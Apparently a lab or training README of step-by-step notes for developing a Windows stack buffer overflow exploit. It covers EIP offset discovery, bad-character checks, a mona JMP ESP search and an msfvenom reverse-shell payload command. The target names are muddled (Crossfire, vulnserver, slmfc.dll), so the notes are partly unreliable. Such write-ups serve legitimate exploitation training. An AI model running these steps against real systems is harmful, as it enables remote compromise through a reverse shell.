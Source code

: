 # Crossfire exploit development


1. Use fuzz.py to know how many A will get overflow.


2. Use pattern to locate where EIP is

    ```
    locate pattern_create
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438
    [*] Exact match at offset 2606
    ```

3. Observer and find that ESP is pointing to the begining of CCCCCC

    ![hashdump](../../images/???.png)

4. Expand the payload from 2700 to 3500 by increase the length of CCCC section, Run again and confirm that this works.

    ![hashdump](../../images/???.png)

5. Bad characters checker, badchars is \x00\0xa\0xd only, see code at bad_chars.py


6. Call `!mona modules`, the result is display on `Log data` windows, find that vulnserver.exe and vulnserver.dll is not protected.


    ![hashdump](../../images/???.png)
    
7. Inspect the memory map on `Memory map` windows


8. /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

```
root@kali:~/Desktop/exercise/7_win_bufferoverflow/vulnserver# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
jmp esp 
nasm > jmp esp
00000000  FFE4              jmp esp
```


9. use mona to find address => 0x5f4a358f

    `!mona find -s "\xff\xe4" -m slmfc.dll`

    ![hashdump](../../images/???.png)

10. update the script to replace B with address `\x8f\x35\x4a\x5f`, set breakpoint at 0x5f4a358f



11. run pre_exploit.py, the breakpoint trigger and run to CCCCCC


12. Now create a payload and replace the CCC section

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.142 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d"
    ```

13. Create and run exploit.py, and a reverse shell is spawn.

    ![hashdump](../../images/????.png) 
